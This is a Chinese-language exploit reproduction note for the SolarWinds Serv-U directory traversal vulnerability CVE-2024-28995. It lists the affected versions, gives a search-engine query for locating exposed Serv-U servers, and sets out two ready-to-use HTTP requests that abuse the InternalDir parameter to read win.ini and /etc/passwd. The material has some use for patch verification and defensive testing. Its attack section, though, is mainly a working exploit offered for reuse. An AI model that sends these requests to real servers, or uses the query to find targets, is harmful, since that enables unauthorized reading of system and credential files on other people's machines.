 # SolarWinds Serv-U存在目录遍历漏洞(CVE-2024-28995)

# 一、漏洞简介
SolarWinds的产品主要面向中小型企业和大型企业的IT部门，提供网络监控、系统管理、数据库管理、安全管理等解决方案，2024年6月，Serv-U 官方 SolarWinds 发布了新补丁，修复了一处目录 遍历Q 致文件读取漏洞(CVE-2024-28995)。Serv-U 的目录遍历漏洞(CVE-2024-28995)是由于在处理路径时缺乏适当的验证。攻击者可以通过传递包含"../"的路径段绕过路径验证，访问任意文件。

# 二、影响版本
SolarWinds Serv-U FTP Server <= 15.4.2 Hotfix 1

SolarWinds Serv-U Gateway <= 15.4.2 Hotfix 1

SolarWinds Serv-U MFT Server <= 15.4.2 Hotfix 1

# 三、资产测绘
```plain
server="Serv-U"
```

![1718816792242-9264a1a9-21a1-46b7-883c-05bdc2ebd941.png](./img/rz4V_zywIK0VMDWz/1718816792242-9264a1a9-21a1-46b7-883c-05bdc2ebd941-121329.png)

# 四、漏洞复现
```java
GET /?InternalDir=/../../../../windows&InternalFile=win.ini HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![1718816940899-dad0cdd4-ca21-4852-a979-1ccb1047686a.png](./img/rz4V_zywIK0VMDWz/1718816940899-dad0cdd4-ca21-4852-a979-1ccb1047686a-277040.png)

```java
GET /?InternalDir=\..\..\..\..\etc&InternalFile=passwd HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![1718817173765-53cef411-e387-4a5c-bac9-2b22ffc05443.png](./img/rz4V_zywIK0VMDWz/1718817173765-53cef411-e387-4a5c-bac9-2b22ffc05443-721181.png)



> 更新: 2024-06-23 23:42:48  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vt3h2cvl0d3cb5do>